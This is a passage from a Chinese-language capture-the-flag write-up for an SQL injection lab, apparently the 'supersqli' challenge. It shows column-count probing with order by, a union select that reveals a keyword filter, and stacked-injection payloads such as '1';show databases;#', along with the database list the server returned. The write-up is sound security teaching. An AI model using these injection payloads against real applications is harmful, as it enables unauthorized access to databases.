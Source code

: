    后输入 `2` `114514` 发现均返回了对应的 数据 此处推断 sql查询所有条目到的均会返回

   

2. 猜解SQL查询语句中的字段数

   输入`1' order by 1 #` 成功回显

   到 `1' order by 3 #` 回显失败

   可知字段为 2 

   

3. 显示字段

   输入`1′ union select 1,2 #` 回显一个正则过滤规则

   ```javascript
   return preg_match("/select|update|delete|drop|insert|where|\./i",$inject);
   ```

   过滤了 select，update，delete，drop，insert，where 和 点

   过滤了这么多词，是不是有堆叠注入？尝试堆叠注入 [^2]

4. 查询数据库

   输入`1';show databases;#` 成功回显

   ```javascript
   array(2) {
     [0]=>
     string(1) "1"
     [1]=>
     string(7) "hahahah"
   }
   
   array(1) {
     [0]=>
     string(11) "ctftraining"
   }
   
   array(1) {
     [0]=>
     string(18) "information_schema"
   }
   
   array(1) {
     [0]=>
     string(5) "mysql"
   }
   
   array(1) {
     [0]=>
     string(18) "performance_schema"
   }
   
   array(1) {
     [0]=>
     string(9) "supersqli"
   }
   
   array(1) {
     [0]=>
     string(4) "test"
   }
   
   
   ```


[^1]: 此处 # 作用是注释 忽略 # 之后的语句 [参考资料](https://blog.csdn.net/github_36032947/article/details/78442189) 
[^2]: 这句话的逻辑 不是特别清楚 网上搜了很多 但是都是这一道题目的 没有讲具体的逻辑 目前推断是 能堆叠 防止你乱搞 所以才禁止了这些关键词 否则直接禁止了堆叠注入 就根本不用禁止了 而且此时是联合注入
[^3]: ../ 是跳转到上级目录